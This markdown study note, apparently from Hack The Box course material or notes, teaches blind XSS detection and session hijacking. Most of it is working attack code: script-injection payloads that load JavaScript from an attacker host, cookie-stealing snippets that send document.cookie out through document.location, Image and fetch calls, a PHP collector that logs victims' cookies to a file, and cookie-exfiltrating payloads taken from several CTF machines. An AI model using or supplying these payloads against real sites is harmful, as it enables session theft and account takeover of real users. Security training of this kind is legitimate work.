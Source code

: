 ```yaml
---
title: c-Sessions Hijacking
draft: false
tags:
  - session-hijacking
  - xss-cookie-stealing
  - blind-xss
  - xss
---
```

Modern web apps use cookies to maintain a user's session throughout different browsing sessions.

If a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

## Blind XSS Detection

**Blind XSS vulnerability** occurs when the vulnerability is triggered on a page we don't have access to.

Blind XSS usually occurs with forms only accessible by certain users like the admins.

Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

Let's say there is a registration form and only admin can see the registration information when submitted. 

How can we detect an XSS vulnerability if we cannot see how the output is handled?

> We can use HTTP server that will receive request coming from JavaScript payload.

However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

## Load Remote Script

We can include a remote script as below. This way we can execute remote JavaScript file that is served on our VM.

```html
<script src="http://OUR_IP/script.js"></script>
```

Let's change the script name to the name of the field we are injecting in. This way, when we get the request in our VM, we can identify the vulnerable input field that executed the script:

```html
<script src="http://OUR_IP/username"></script>
```

Now let's test with various XSS payloads that will load a remote script and see which of them sends us a request:

```html
<script src=http://10.10.14.89></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Before we start sending payloads, let's start a listener on our VM:

```shell-session
jadu101@htb[/htb]$ mkdir /tmp/tmpserver
jadu101@htb[/htb]$ cd /tmp/tmpserver
jadu101@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Now we can start sending payloads one by one as such:

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

> We can usually skip email and password field since email requires email format and password is usually hashed.


## Session Hijacking

Assuming now we have a working XSS payload and have identified which input field is vulnerable, let's proceed to XSS exploitation and perform a Sessions Hijacking attack.

We can use such payloads to grab the session cookie and send it back to us:

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Let's save below JavaScript payload to `script.js`:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now the following XSS payload will launch `script.js`:

```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code above as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. 

However, if there were many cookie, we may not know which cookie value belongs to which cookie header so we have to write a PHP script to split them with a new line and write them to a file.

We can save the following PHP script as `index.php` and re-run the PHP server:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Once the victim visit the vulnerable page and view our XSS payload, we will get two requests on our server. 

1. Request for `script.js`
2. Request for `index.php` which returns cookie value. 

```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

Since we have prepared PHP script, we will also get `cookies.txt` file with a clean log of cookies:

```shell-session
jadu101@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

## Examples from CTFs

Below are some example payloads from HTB ctfs:

1. Headless: `<script>var i=new Image(); i.src="http://10.10.14.14:8000/?cookie="+btoa(document.cookie);</script>`
2. PermX: `<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>`
3. Intuition: `<img src=x onerror="fetch('http://10.10.14.29:8000/?cookie='+document.cookie)">
4. ICean: `<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>


